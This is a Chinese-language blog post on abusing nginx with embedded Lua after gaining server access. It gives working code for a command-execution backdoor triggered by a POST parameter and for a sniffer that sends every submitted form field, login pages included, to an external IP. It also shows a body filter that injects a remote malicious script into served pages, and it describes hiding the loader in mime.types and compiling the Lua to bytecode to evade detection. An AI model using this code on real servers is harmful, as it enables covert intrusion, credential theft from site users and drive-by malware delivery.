





## 浅谈nginx + lua在安全中的一些应用
### 概要
nginx是一个用C语言开发的高性能WEB服务器及反向代理服务器，直接使用c/c++进行二次开发，对于很多用户是有一定门槛的，且c/c++的开发效率也比不上python、js、lua等语言，python、js、lua 三者中，lua 是解析器最小，性能最高的语言，luajit比lua 又快数10倍。目前将nginx和lua 结合在一起的有春哥维护的[openresty](http://openresty.org/cn/)和淘宝维护的[Tengine](http://tengine.taobao.org/)。

1. 最先将Nginx，Lua组合到一起的是OpenResty，春哥提供了一个[lua-nginx-module模块](https://github.com/openresty/lua-nginx-module)，可以将Lua嵌入到了Nginx里面， 锤子T2发布会上捐赠的项目就是春哥的openresty；

1. 随后Tengine fork了nginx的一个分支，也包含了[lua-nginx-module模块](https://github.com/openresty/lua-nginx-module)。

#### openresty与tengine的区别：

1. OpenResty是Nginx的Bundle，与官方的最新版本是同步的

1. Tengine则是Nginx 1.6.2版本的Fork, 阿里根据自己的业务情况对nginx进行了一些定制开发

#### nginx + lua 的应用场景
OpenResty通过汇聚各种设计精良的 Nginx 模块（主要由 OpenResty 团队自主开发），从而将 Nginx 有效地变成一个强大的通用 Web 应用平台，在WEB应用与信息安全领域均有广泛的应用：

1. 业务部门可以用其快速构造出足以胜任 10K 乃至 1000K 以上单机并发连接的高性能 Web 应用系统，具体的应用场景可以参考[OpenResty Con 2015](http://www.iresty.com/)，目前基于openresty的web框架有以下几种：

  1. https://github.com/leafo/lapis
  1. https://github.com/idevz/vanilla
  1. https://github.com/sumory/lor
  1. https://github.com/dualface/gbc-core（游戏后端框架）

1. 安全从业人员经常用来写waf、安全代理（身份认证、敏感信息删除等）

本文先写一些偏渗透方面的，主要包括以下几个方面：

1. 后门
1. 数据监听、窃取
1. 挂马
1. lua代码加密及隐蔽

### 安装
#### openresty和tengine
openresty和tengine默认已经集成了lua的功能，安装过程比较方便。

1. openresty的安装
```
tar xzvf ngx_openresty-VERSION.tar.gz
cd ngx_openresty-VERSION/
./configure
gmake
gmake install
```
1. tengine的安装
```
wget http://tengine.taobao.org/download/tengine-2.1.2.tar.gz
tar -zxvf tengine-2.1.2.tar.gz
cd tengine-2.1.2
./configure
make
make install
```

#### 为nginx安装lua-nginx-module
为nginx安装lua-nginx-module分为以下几个步骤：

1. 安装LuaJIT 2.0或2.1或 lua 5.1（5.2以上版本不支持）
1. 下载ngx_devel_kit、 ngx_lua

编译安装过程如下：
```shell
wget 'http://nginx.org/download/nginx-1.9.15.tar.gz'
 tar -xzvf nginx-1.9.15.tar.gz
 cd nginx-1.9.15/
 export LUAJIT_LIB=/path/to/luajit/lib
 export LUAJIT_INC=/path/to/luajit/include/luajit-2.1
 ./configure --prefix=/opt/nginx \
         --with-ld-opt="-Wl,-rpath,/path/to/luajit-or-lua/lib" \
         --add-module=/path/to/ngx_devel_kit \
         --add-module=/path/to/lua-nginx-module
 make -j2
 make install
```
nginx 1.9.11及以后的版本支持动态加载模块，将ngx_devel_kit、 ngx_lua编译为.so文 件，通过load_module指令就可以加载到nginx中了，
```shell
load_module /path/to/modules/ndk_http_module.so;  # assuming NDK is built as a dynamic module too
load_module /path/to/modules/ngx_http_lua_module.so;
```
将nginx模块编译为动态模块的方法可以参考：https://www.nginx.com/resources/wiki/extending/converting/
在实际的应用中，如果目标网站中是原生的nginx，我们也可以考虑用nginx -V命令获取到目标网站的编译参数，然后在本地虚拟机中编译一个相同版本、带有lua模块的nginx二进制文件替换到目标站点的。

### 后门
在nginx.conf文件中的http节中加入如下内容：
```shell
http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua_src/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file 'conf/lua_src/Init.lua';
```
conf/lua_src/Init.lua中的内容如下：
```lua
local p = "/usr/local/openresty/nginx/conf/lua_src"
local m_package_path = package.path
package.path = string.format("%s?.lua;%s?/init.lua;%s", p, p, m_package_path)
cmd = require("t")
```
cmd = require("t")表示加载了t.lua中的模块，并命名为cmd，以后在nginx的所有执行阶段通过cmd变量就可以调用了。
t.lua实现了一个简单的命令执行功能，如下所示：
```lua
local _M = {}
function _M.run()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    -- for k, v in pairs(post_args) do
    --    ngx.say(string.format("%s = %s", k, v))
    -- end
    local cmd = post_args["cmd"]
    if cmd then
        f_ret = io.popen(cmd)
        local ret = f_ret:read("*a")
        ngx.say(string.format("reply:\n%s", ret))
    end
end
return _M
```

nginx有11个处理阶段，如下图所示：

一般我们在开发过程中常用到的阶段如下：

1. set_by_lua*: 流程分之处理判断变量初始化
1. rewrite_by_lua*: 转发、重定向、缓存等功能(例如特定请求代理到外网)
1. access_by_lua*: IP准入、接口权限等情况集中处理(例如配合iptable完成简单防火墙)
1. content_by_lua*: 内容生成
1. header_filter_by_lua*: 应答HTTP过滤处理(例如添加头部信息)
1. body_filter_by_lua*: 应答BODY过滤处理(例如完成应答内容统一成大写)
1. log_by_lua*: 回话完成后本地异步完成日志记录(日志可以记录在本地，还可以同步到其他机器)

一般情况下，我们使用content阶段即可，以下的例子为把content_by_lua放到server段的/test/ location下
```shell
1     location /test/ {
2       content_by_lua '
3       cmd.run()
4       ';
5     }
```
执行效果如图所示：

如果将content_by_lua改为access_by_lua（content阶段不允许放在http节）放到http段表示为一个全局的后门，随便一个url，只要传入我们特定的参数，nginx就会响应，即便是404的页面也可以，如下图的所示：


### 数据监听、窃取
nginx实现数据监听非法方便，只要以下ngx.req.read_body()和local post_args = ngx.req.get_post_args()2行代码即可，
再利用lua-resty-http模块就可以将数据通过post的方式提交到黑阔指定的地方，测试代码如下：
```lua
local http = require "resty.http"
local cjson = require("cjson")

local _M = {}

function _M.sniff()
    ngx.req.read_body()
    local post_args = ngx.req.get_post_args()
    ngx.log(ngx.DEBUG, "data=" .. cjson.encode(post_args))
    if post_args then
        local httpc = http.new()
        local res, err = httpc:request_uri("http://111.111.111.111/test/", {
            method = "POST",
            body = "data=" .. cjson.encode(post_args),
            headers = {
            ["Content-Type"] = "application/x-www-form-urlencoded",
        }
        })
    end
end

return _M
```
然后用tornado写个接受post参数的web程序，测试代码及效果如下：

如果将监听的代码放到nginx的http段中，表示全局监听并窃取post数据，这样黑阔就会收到所有的post数据请求，对目标服务器的性能也有影响。

```shell
access_by_lua 'cmd.sniff() ';
```

最佳的做法是放到目标站点的关键的location中，比如/login、/admin等，需要注意的是lua-resty-http是基于cosocket实现的，所以不能放在以下几个阶段
set_by_lua*, log_by_lua*, header_filter_by_lua*, body_filter_by_lua。

如果只想记录正确的密码，过滤掉错误的，就需要在header_filter_by_lua或body_filter_by_lua阶段，通过服务器返回的值来判断用户post提交的密码是否正确，这个时候如果想提交到服务器中的话，就不能使用lua-resty-http了，但是可以通过ngx.timer.at 以异步的方式提交。
另外也可以使用第三方的模块lua-requests在header_filter_by_lua或body_filter_by_lua阶段提交数据，利用luarocks为openresty安装lua-requests的过程如下：

```shell
wget http://luarocks.org/releases/luarocks-2.0.13.tar.gz
tar -xzvf luarocks-2.0.13.tar.gz
cd luarocks-2.0.13/
./configure --prefix=/usr/local/openresty/luajit \
    --with-lua=/usr/local/openresty/luajit/ \
    --lua-suffix=jit-2.1.0-alpha \
    --with-lua-include=/usr/local/openresty/luajit/include/luajit-2.1
make
sudo make install

sudo /usr/local/openresty/luajit/luarocks install lua-requests
```

### 挂马

在nginx返回数据时，将网页木马插入即可，代码如下：

```lua
function _M.hang_horse()
    local data = ngx.arg[1] or ""
    local html = string.gsub(data, "</head>", "<script src=\"http://docs.xsec.io/1.js\"></script></head>")
    ngx.arg[1] = html
end
```

放到目标网站的/目录下后的效果如下：

```shell
location ~* ^/ {
    body_filter_by_lua 'cmd.hang_horse()';
```


### Lua代码加密及隐藏
### lua加载代码隐藏

毕竟光明正大地在nginx.conf中加入了执行lua的代码后非常容易被发现，攻击者可以用include指令将以下代码改得隐蔽一些。

```shell
http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua_src/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file 'conf/lua_src/Init.lua';
```

改成以下的内容，看起来与之前的配置完全一样，把加载lua的代码放到mime.types文件中，mime.types是一般用nginx默认的，一般很少有人去查看或改动其内容。

```shell
http {
  include       mime.types;
```
### lua代码加密

即便是把lua加载的配置代码放在隐蔽的地方了，但是还在存在被找到的风险的，找到后如果是明文的lua代码，那行踪将暴露的一览无余，至少将lua代码加密一下。
openresty使用的是luajit，luajit提供了一个luajit -b参数，可以将代码编译为字节码，这样就不容易被看到明文代码了。

使用方式如下图所示（openresty的luajit的默认路径为`/usr/local/openresty/luajit/bin/luajit`），用编译后的lua字节码替换掉明文的文件即可。


### 总结
拿到目标主机的root权限后，只留一个只有web容器权限的nginx+lua后门显然不是最佳的选择，本文只是提供一种可能的思路，测试代码的github地址为：https://github.com/netxfly/nginx_lua_security

虽然很low，但just for share...
